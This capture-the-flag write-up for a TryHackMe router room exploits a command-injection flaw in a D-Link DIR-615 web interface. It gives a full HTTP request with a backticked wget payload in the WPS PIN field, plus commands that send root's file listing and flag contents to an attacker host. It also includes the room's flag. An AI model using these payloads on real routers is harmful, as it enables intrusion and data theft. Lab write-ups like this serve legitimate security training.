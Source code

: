 # 🛜 Royal Router

* Solving [Royal Router](https://tryhackme.com/room/hfb1royalrouter)

## Finding Initial Vulnerability

1. Finding open Ports: `nmap -p- -sV $TARGET`
```
Nmap scan report for $TARGET
Host is up (0.00016s latency).
Not shown: 65527 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
23/tcp    open  telnet?
80/tcp    open  http    DD-WRT milli_httpd
9999/tcp  open  abyss?
20443/tcp open  unknown
24433/tcp open  unknown
28080/tcp open  unknown
50628/tcp open  unknown
MAC Address: 02:77:0D:27:B5:F1 (Unknown)
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

2. Checking web Port(**80**) on Browser: `http://$TARGET`

3. You'll need the default Password for the Challenge: `https://www.lifewire.com/d-link-dir-615-default-password-2619092`
```
Username: admin
Password: (Blank)
```

4. Searching for Vulnerabilities: `dir-615 hack`

5. **CVE-2020-10213**: [Write-Up](https://tomorrowisnew.com/posts/hacking-the-dlink-dir-615-for-fun-and-no-profit-part-3-cve-2020-10213/)

## Exploiting Device

1. Start Python Http Server on your system
```sh
python3 -m http.server
```

2. Go to: `http://$TARGET/do_wps.asp`

3. Enable on `PIN` and fill the box with `12345670` and Click `Connect`

4. Capture the Request above in **Burp Suite**

5. Add Your Payload to `wps_sta_enrollee_pin` parameter and send the payload.
```
POST /set_sta_enrollee_pin.cgi HTTP/1.1
Host: $TARGET
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Origin: http://$TARGET
Connection: keep-alive
Referer: http://$TARGET/do_wps.asp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

html_response_page=do_wps_save.asp&html_response_return_page=do_wps.asp&reboot_type=none&wps_pin_radio=0&wps_sta_enrollee_pin=12345670`wget+http://$ATTACKBOX:8000/`
```
- **Make Sure to replace your IP with `$ATTACKBOX`**

6. You should see some Requests in **Python HTTP Server**

# Getting Flag

1. Finding Flag: `wget http://$ATTACKBOX:8000/$(ls /root/)`

2. Read Flag: `wget http://$ATTACKBOX:8000/$(cat /root/flag.txt)`
```
THM{EXFILTRATING_A_MIPS_ROUTER}
```

# References

- 
- [Cheat Sheet - 0xb0b](https://0xb0b.gitbook.io/writeups/tryhackme/2025/hackfinity-battle-vault#royal-router)
- [noobexploiter](https://noob3xploiter.medium.com/hacking-the-dlink-dir-615-for-fun-and-no-profit-a2f1689f9920)
- [Tomorrow is New](https://tomorrowisnew.com)